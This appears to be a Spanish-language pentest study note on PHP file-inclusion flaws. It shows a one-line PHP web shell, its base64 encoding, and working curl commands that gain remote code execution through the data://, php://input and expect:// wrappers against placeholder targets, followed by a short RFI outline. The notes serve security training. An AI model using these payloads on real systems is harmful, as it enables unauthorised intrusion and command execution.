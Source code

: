 ### REMOTE CODE EXECUTION

Con "allow_url_include" activado, podemos prodceder con daots, como ya sabemos este wrapper se utiliza para incluid datos externos, incluid codigo PHP. Podemos pasarlo en base64 y hacer una remote shell

```
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Ahora podemos hacer un URL encode como "data://text/plain;base64;" y usamos el comando &cmd=<command>

```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

# INPUT

Igual que el data tambien puede incluid codigo exteno, la diferenncia esque esto lo utilizamos con POST y es vulnerable si acepta este tipo de peticiones.

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

## EXPECT

Finalmente el wrapper expect, ejecuta directamente codigo en la URL, sin embargo necesita una instalación manual y que te deje el servidor.

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
El tio de configuracion se usa para activar el modulo, esto hace que consigas un RCE podemos usar expect://

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
# REMOTE FILE INCLUDIO (RFI)

1 - Enumerar puertos locales

2 - Ganar codigo remoto y ejecutarlo

## LOCAL VS INCLUSION REMOTA

Cuando una vulnerabilidad incluye archivos remotos, el host normalmente no acepta script maliciosos, esto se incluye como vulnerabilidad para la pagna que se pueda ejecutar est codigo. 

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/44b6927a-ac1a-4371-b21b-4fcc749e2ce8)
